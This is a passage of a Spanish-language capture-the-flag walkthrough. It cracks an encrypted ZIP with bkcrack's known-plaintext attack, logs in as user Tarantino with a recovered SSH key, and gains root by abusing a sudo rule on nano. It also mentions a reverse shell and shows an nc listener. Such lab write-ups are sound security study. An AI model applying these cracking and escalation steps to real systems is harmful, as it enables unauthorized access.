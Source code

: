 - `echo "<!DOCTYPE html>" > plain_text`

Una vez hecho esto vamos a comprimir el archivo en un `ZIP`, para esto haremos lo siguiente:

- `zip plain_text.zip plain_text`

Ahora que lo tenemos todo preparado nos vamos a descargar una herramienta llamada [`BKCrack`](https://github.com/kimci86/bkcrack) que nos permitirá extraer los datos de forma sencilla.

```
./bkcrack -C mydata_archive.zip -c 404.html -P plain_text.zip -p plain_text
```

- `-C`: Indicamos el arvhivo con contraseña.
- `-c`: Indicamos el archivo que sabemos que contiene la cadena antes introducida.
- `-P`: Especificamos el arvchivo `ZIP` antes creado.
- `-p`: Especificamos el archivo con la cadena que sabemos que existe.

```Ruby
bkcrack 1.5.0 - 2022-07-07
[03:33:39] Z reduction using 8 bytes of known plaintext
100.0 % (8 / 8)
[03:33:39] Attack on 761980 Z values at index 6
Keys: d706e724 da372a68 a79864b0
```

Tras unos segundos de espera recibimos las siguientes llaves: `d706e724 da372a68 a79864b0`, gracias a esto podemos realizar el paso final.

```
./bkcrack -C mydata_archive.zip -k d706e724 da372a68 a79864b0 -U unlocked.zip pass
```

En la siguiente instrucción le estamos pasando el archivo con contraseña y las llaves antes encontradas, con el parámetro `-U` le estamos indicanto un `output`, en este caso será `unlocked.zip` con la contraseña `pass`.

```
bkcrack 1.5.0 - 2022-07-07
[03:43:34] Writing unlocked archive unlocked.zip with password "pass"
100.0 % (6 / 6)
Wrote unlocked archive.
```

Como vemos ya tenemos el archivo con todos los ficheros, por lo que podemos descomprimirlo con la contraseña que hayamos especificado antes. Una vez lo hayamos hecho veremos una `id_rsa`, la cual pertenece a `Tarantino`.

Bien! Ya estamos en la máquina como `Tarantino`!

### Subida de privilegios
Bien, una vez en la máquina podemos ejecutar `sudo -l` para ver qué podemos hacer, vemos que como el usuario `root` podemos utilizar `nano` para leer el archivo `/etc/passwd`, por lo que vamos a iniciarlo:

- `sudo -u root /usr/bin/nano /etc/passwd`

Como vemos `nano` dispone de varias opciones abajo, entre ellas `Execute` o `Ejecutar`, para acceder allí pulsaremos `CTRL + T`. Vemos que si ponemos `whoami` y le damos al `enter` nos escribe el `output` en el archivo. Pone que somos `root`!

Para ganar una Shell me copié de [`IronHackers`](Ironhackers.es/herramientas/reverse-shell-cheat-sheet/) una Reverse Shell en `Bash` y con la opción antes descubierta lo ejecuté. No olvidemos ponernos en escucha con `NC`:

- `nc -nlvp 4444`

Bien! Ya estamos en la máquina como `root`! Qué fácil!
